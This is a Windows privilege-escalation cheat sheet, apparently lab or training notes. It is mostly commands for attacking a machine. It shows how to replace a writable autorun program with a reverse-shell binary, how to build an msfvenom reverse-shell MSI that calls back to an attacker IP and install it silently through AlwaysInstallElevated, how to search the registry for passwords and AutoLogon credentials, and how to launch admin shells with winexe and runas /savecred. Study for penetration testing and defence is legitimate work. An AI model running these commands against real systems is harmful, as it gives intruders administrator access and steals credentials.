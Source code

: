 # Registry
## AutoRuns

Check autorun executables on system:
`reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

Using accesschk.exe, note that one of the AutoRun executables is writable by everyone:

`C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"`

Putting shell in the PATH
`copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y`

So if we connect again using rdp we will be able to get the reverse shell.

## AlwaysInstalledElevated

Query the registry for AlwaysInstallElevated keys:
`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated  
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
Note that both keys are set to 1 (0x1).

Generate a reverse shell Windows Installer (reverse.msi) using msfvenom. Update the LHOST IP address accordingly:
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi`

To get the shell:
`msiexec /quiet /qn /i C:\PrivEsc\reverse.msi`

# Passwords
## Registry
The registry can be searched for keys and values that contain the word "password":
`reg query HKLM /f password /t REG_SZ /s`

If you want to save some time, query this specific key to find admin AutoLogon credentials:

`reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"`

On Kali, use the winexe command to spawn a command prompt running with the admin privileges (update the password with the one you found):

`winexe -U 'admin%password' //MACHINE_IP cmd.exe`


## Saved Creds
List any saved credentials:

`cmdkey /list`

get shell:
`runas /savecred /user:admin C:\PrivEsc\reverse.exe`
